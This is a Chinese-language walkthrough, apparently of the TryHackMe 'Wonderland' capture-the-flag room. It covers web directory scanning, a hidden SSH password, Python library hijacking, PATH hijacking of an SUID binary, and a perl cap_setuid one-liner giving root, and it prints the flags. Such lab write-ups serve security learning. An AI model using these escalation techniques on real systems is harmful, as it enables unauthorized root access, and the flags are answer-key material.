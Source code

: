 # Wonderland

进入仙境并夺取旗帜

循例，nmap扫一波

只开了22和80

先进web查看一下,gobuster也扫一波目录

查看源代码有个/img文件夹，里面有三张图片

gobuster扫到：

<pre>/img                 <font color="#49AEE6"> (Status: 301)</font> [Size: 0]<font color="#367BF0"> [--&gt; img/]</font>
/index.html          <font color="#49AEE6"> (Status: 301)</font> [Size: 0]<font color="#367BF0"> [--&gt; ./]</font>
/r                   <font color="#49AEE6"> (Status: 301)</font> [Size: 0]<font color="#367BF0"> [--&gt; r/]</font>
</pre>

/r页面：

    Keep Going.

    "Would you tell me, please, which way I ought to go from here?"

对着/r/再扫一波子目录

扫出/r/a

与/r页面一样的内容，继续这样扫

直到/r/a/b/b/i/t/

查看源代码：

     <p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>

尝试登录ssh：

<pre><font color="#47D4B9"><b>alice@wonderland</b></font>:<font color="#277FFF"><b>~</b></font>$ </pre>

成功登录

ls -la发现有个root.txt但没权限，刚刚在web扫描过程中有提到这么一句话：

    这里的一切都是颠倒的

<pre><font color="#47D4B9"><b>alice@wonderland</b></font>:<font color="#277FFF"><b>~</b></font>$ cat /root/user.txt
thm{&quot;Curiouser and curiouser!&quot;}
</pre>

sudo -l发现可以以rabbit运行一个python脚本：

    import random
    random.choice(arg)

我们可以修改python path

    export PYTHONPATH=/home/alice:$PYTHONPATH

在/home/alice创建random.py

    def choice(arg):
        import os
        os.system('/bin/bash')

<pre><font color="#47D4B9"><b>alice@wonderland</b></font>:<font color="#277FFF"><b>~</b></font>$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
<font color="#47D4B9"><b>rabbit@wonderland</b></font>:<font color="#277FFF"><b>~</b></font>$ 
</pre>

进到rabbit，查看getcap 看到了好东西：

<pre><font color="#47D4B9"><b>rabbit@wonderland</b></font>:<font color="#277FFF"><b>/home/rabbit</b></font>$ getcap -r / 2&gt;/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
</pre>

遗憾的是，权限不足

/home/rabbit下有一个可执行文件，并且被设了suid , strings查看一下，发现这么一行代码：

    /bin/echo -n 'Probably by ' && date --date='next hour' -R

它会执行date命令

所以我们在/home/rabbit创建date并写入命令：

    #!/bin/bash
    /bin/bash

修改PATH

    export PATH=/home/rabbit:$PATH

    chmod 777 ./date

再次运行./teaParty

<pre><font color="#47D4B9"><b>rabbit@wonderland</b></font>:<font color="#277FFF"><b>/home/rabbit</b></font>$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by
<font color="#47D4B9"><b>hatter@wonderland</b></font>:<font color="#277FFF"><b>/home/rabbit</b></font>$ whoami
hatter
</pre>

在hatter下查看

<pre><font color="#47D4B9"><b>hatter@wonderland</b></font>:<font color="#277FFF"><b>/home/hatter</b></font>$ getcap -r / 2&gt;/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
<font color="#47D4B9"><b>hatter@wonderland</b></font>:<font color="#277FFF"><b>/home/hatter</b></font>$ ls -la /usr/bin |grep perl
-rwxr-xr--  2 root   <font color="#EC0101">hatter</font>   2097720 Nov 19  2018 <font color="#EC0101"><b>perl</b></font>
-rwxr-xr--  2 root   <font color="#EC0101">hatter</font>   2097720 Nov 19  2018 <font color="#EC0101"><b>perl</b></font>5.26.1
</pre>

#### 注意，由于我们不是正常登录过来的，所以我们的gid并不是hatter所属的

我们在/home/hatter下发现了password.txt：

    WhyIsARavenLikeAWritingDesk?

有可能是hatter的密码

尝试ssh登录

成功

翻看[垃圾桶](https://gtfobins.github.io/gtfobins/perl/)

使用具有capabilities的perl设置uid为0并就此获得bash

<pre><font color="#47D4B9"><b>hatter@wonderland</b></font>:<font color="#277FFF"><b>~</b></font>$ perl -e &apos;use POSIX qw(setuid); POSIX::setuid(0); exec &quot;/bin/bash&quot;;&apos;
</pre>

<pre><font color="#47D4B9"><b>root@wonderland</b></font>:<font color="#277FFF"><b>~</b></font># whoami
root
<font color="#47D4B9"><b>root@wonderland</b></font>:<font color="#277FFF"><b>~</b></font># cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
</pre>
